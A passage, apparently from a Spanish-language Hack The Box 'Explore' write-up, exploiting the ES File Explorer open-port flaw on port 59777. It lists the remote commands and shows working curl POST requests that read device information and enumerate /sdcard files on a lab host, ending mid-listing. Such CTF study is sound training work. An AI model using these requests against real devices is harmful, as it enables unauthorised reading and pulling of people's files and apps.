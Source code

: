 **CVVS 3.1:** 7.3, **Vector:** CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N

**Prueba de concepto (PoC):** https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

Dentro el enlace a github podemos observar la manera de como armar la peticion json por medio de curl o podes usar el script de python para enviar comandos por medio de este. En mi caso he usado curl para poder materializar la vulnerabilidad.

Antes de enviar las peticiones debemos conocer la lista de comandos que podemos ejecutar en el dispositivo

```text
listFiles: Enumerar todos los archivos
listPics: Lista de todas las imágenes
listVideos: Enumera todos los videos
listAudios: Lista de todos los archivos de audio
listApps: Enumera todas las aplicaciones instaladas
listAppsSystem: Enumera todas las aplicaciones del sistema
listAppsPhone: Enumera todas las aplicaciones del teléfono
listAppsSdcard: Enumere todos los archivos apk en la sdcard
listAppsAll: Enumere todas las aplicaciones instaladas (incluidas las aplicaciones del sistema)
getDeviceInfo: Obtener información del dispositivo
appPull: extrae una aplicación del dispositivo. Se necesita el parámetro de nombre de paquete
appLaunch: Inicie una aplicación. Se necesita el parámetro de nombre de paquete
getAppThumbnail: Obtén el icono de una aplicación. Se necesita el parámetro de nombre de paquete
```

Vamos a verificar la informacion del dispositivo haciendo uso del comando getDeviceInfo

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":getDeviceInfo}" http://10.10.10.247:59777
{"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}
```

Al ejecuta el comando podemos obtener informacion del dispositivo, al estar ejecutando varios de los comandos disponibles para enumerar archivos dentro de los directorios se ha encontrado la flag del usuario en la carpeta sdcard.

```bash
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":listFiles}" http://10.10.10.247:59777/sdcard          
[
{"name":"Android", "time":"3/13/21 05:16:50 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".estrongs", "time":"3/13/21 05:30:39 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Download", "time":"3/13/21 05:37:03 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dianxinos", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Notifications", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"DCIM", "time":"4/21/21 02:38:16 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Alarms", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Podcasts", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Pictures", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".userReturn", "time":"11/5/21 05:41:34 PM", "type":"file", "size":"72.00 Bytes (72 Bytes)", }, 
{"name":"user.txt", "time":"3/13/21 06:28:55 PM", "type":"file", "size":"33.00 Bytes (33 Bytes)", }, 
{"name":"Movies", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Music", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
```